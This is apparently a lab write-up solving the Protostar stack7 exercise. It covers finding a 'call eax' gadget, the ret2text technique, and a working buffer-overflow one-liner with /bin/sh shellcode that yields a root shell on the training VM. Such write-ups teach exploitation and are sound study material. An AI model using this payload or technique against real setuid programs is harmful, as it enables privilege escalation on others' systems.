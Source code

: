 Code is very similar but this time we are asked to use **ret2text**. That basically means to reuse the hex bytes stored in **.text** as opcodes. We can search the .text section for useful gadgets like **jmp esp** that will allow us to ret to those opcodes and then jump back to **esp** successfully bypassing the program control (0xbf000000).

```lang-clike line-numbers 
user@protostar:~$ objdump -M intel -d /opt/protostar/bin/stack7 | grep "call.*esp"
user@protostar:~$ objdump -M intel -d /opt/protostar/bin/stack7 | grep "jmp.*esp"
```

No luck :( We can also use **ret** or **pop, ret** to jump to the stack section above the overwritten EIP address. But if we look at the code we can see that the only difference from **stack6** is that now the **getpath()** function returns **strdup(buffer)** that means that is going to duplicate whatever string it finds at **&buffer** and return the address for that new string. Functions normally return its output using the **eax** registry. So we can place our shellcode at **buffer** and then overwrite the **ret** address with the address of ***call eax** opcodes in **.text**. That way, we will jump to eax where our shellcode will be waiting for us. The only limitation is that our shellcode needs to be smaller than 80 bytes where we need to place the address to **call eax**:

```lang-clike line-numbers 
user@protostar:~$ objdump -M intel -d /opt/protostar/bin/stack7 | grep "call.*eax"
 8048478:	ff 14 85 5c 96 04 08 	call   DWORD PTR [eax*4+0x804965c]
 80484bf:	ff d0                	call   eax
 80485eb:	ff d0                	call   eax
```

We will be using a [shellcode](http://www.exploit-db.com/exploits/13357) that returns from stdin in **gets()** and executes **/bin/sh**
As the return address we will be using the **cal eax** at: 0x080484bf

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "\x90"*25 + "\xbf\x84\x04\x08")'` | /opt/protostar/bin/stack7
input path please: got path 1�1۰̀Sh/ttyh/dev��1�f�'�1�Ph//shh/bin��PS�ᙰ
                                                                       ̀������������������������
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
#
```









